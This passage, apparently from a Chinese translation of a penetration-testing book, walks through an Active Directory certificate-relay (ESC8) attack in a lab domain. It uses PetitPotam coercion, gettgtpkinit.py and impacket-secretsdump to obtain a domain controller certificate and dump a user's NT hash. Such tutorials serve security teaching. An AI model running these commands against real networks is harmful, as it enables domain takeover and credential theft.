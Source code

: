     我们选择`DomainController`模板，因为我们的目标是域控制器。如果我们的目标是工作站，我们可以使用`Machine`模板，对于域用户，我们可以使用`User`模板。

1.  使用`PetitPotam`强制进行身份验证；但是，您也可以选择任何其他方法：

    ```
    python3 PetitPotam.py 192.168.56.100 meereen.essos.local
    ```

1.  在强制身份验证后获取证书：

![图 8.39 – 获取域控制器的计算机帐户证书](img/B18964_08_39.jpg)

图 8.39 – 获取域控制器的计算机帐户证书

1.  通过传递证书请求 TGT：

    ```
    python3 gettgtpkinit.py -pfx-base64 $(cat /home/kali/cert.b64) -dc-ip 192.168.56.12 'essos.local/meereen$' 'meereen.ccache'
    ```

1.  使用 TGT，获取`daenerys.targaryen`的 NT 哈希：

    ```
    export KRB5CCNAME=meereen.ccache
    impacket-secretsdump -k -no-pass -just-dc-user daenerys.targaryen ESSOS.LOCAL/'meereen$'@meereen.essos.local
    ```

    攻击的结果如下截图所示：

![图 8.40 – 成功的 ESC8 攻击](img/B18964_08_40.jpg)
